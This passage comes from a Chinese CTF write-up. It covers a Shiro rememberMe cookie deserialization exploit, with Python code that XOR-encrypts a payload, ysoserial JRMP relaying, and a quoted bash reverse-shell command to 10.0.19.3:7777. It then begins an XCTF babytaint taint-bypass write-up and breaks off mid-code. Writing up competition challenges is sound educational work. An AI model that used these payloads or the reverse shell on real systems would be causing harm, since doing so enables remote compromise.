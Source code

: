 ```python
k = md5(key.encode()).hexdigest()
k = sha1(k.encode()).hexdigest().encode()

newdata = bytearray()
newdata_2 = bytearray()

for i in data:
    newdata.append(i)
    newdata.append(0)

for i in range(len(newdata)):
    newdata_2.append(newdata[i] ^ k[i % len(k)])

print(b64encode(newdata_2))
```

然后直接改到 rememberMe 的 Cookie 上就行了, 尝试了几个 payload 因为 Cookie 是有长度限制的, 平常是直接将序列化数据 base64 贴上去所以不会超出限制. 这里双重 base64 加上加密还得带一个 xor key 导致很多 payload 就不能直接用了. 所以我们这里还是用 JRMPClient 来中转一下, 在自己的机器上跑一个 ysoserial.exploit.JRMPListener 就 ok 了.

这里需要注意原版的 ysoserial 是直接用的 `java.Runtime.getRuntime().exec(payload)`, 相当于 `execv(payload.split(' '))`, 会导致 `bash -c "bash -i >& /dev/tcp/10.0.19.3/7777 0>&1"` 之类的不能用, 这里当时是用了别的命令利用的漏洞. 赛后 fork 了 [ysoserial](https://github.com/rmb122/ysoserial) 改了下, 用的 `java.Runtime.getRuntime().exec(new String[]{})` 就能直接弹 shell 之类的.

## XCTF Final babytaint Writeup

拿到手先 Google `jalangi2` 是个啥, 可以搜到是个可以 hook javascript 各种操作的库. 这里是拿来搞了污点分析.
如果之前了解过一些编译原理和 PHP 的 taint 拓展, 那这道题确实挺简单的. 本质就是从 /dev/urandom/ 里面获取随机字节作为 secret, 题目 hook 了 "Source"() 的调用, 返回了 taint 过的 secret, 你需要通过某种方法 bypass 掉这个 taint. 也就是将污点去除.  
我们看一下源码, 关键就是这个

```javascript
function AnnotatedValue(val, shadow)
	{
		this.val = val;
		this.shadow = shadow;
	}
```
这个就是一个包装类, 用 shadow 来记录是否是 taint 过的值. 题目 hook 住了所有计算, 拿二元计算来看
```javascript
this.binary = function(iid, op, left, right, result)
	{
		const aleft = actual(left);
		const aright = actual(right);
		switch (op)
		{
		case "+":
			result = aleft + aright;
			break;
		case "-":
			result = aleft - aright;
			break;
		case "*":
			result = aleft * aright;
			break;
		case "/":
			result = aleft / aright;
			break;
		case "%":
			result = aleft % aright;
			break;
		case "<<":
			result = aleft << aright;
			break;
```